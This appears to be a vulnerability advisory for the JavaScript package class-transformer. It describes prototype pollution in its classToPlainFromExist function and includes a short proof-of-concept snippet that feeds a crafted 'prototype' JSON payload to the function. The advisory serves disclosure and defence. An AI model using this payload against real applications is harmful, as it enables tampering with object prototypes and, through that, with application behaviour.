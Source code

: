 # Overview

class-transformer is a Proper decorator-based transformation / serialization / deserialization of plain javascript objects to class constructors.

Affected versions of this package are vulnerable to Prototype Pollution the `classToPlainFromExist` function could be tricked into adding or modifying properties of `Object.prototype` using a `prototype` payload.

# Proof of Concept
```js
var root = require("class-transformer");
var payload = JSON.parse('{ "testProperty": "hi", "prototype" : { "status" : "pwned!" } }');

var obj = root.classToPlainFromExist(payload,{});
console.log(obj.prototype.status);
```
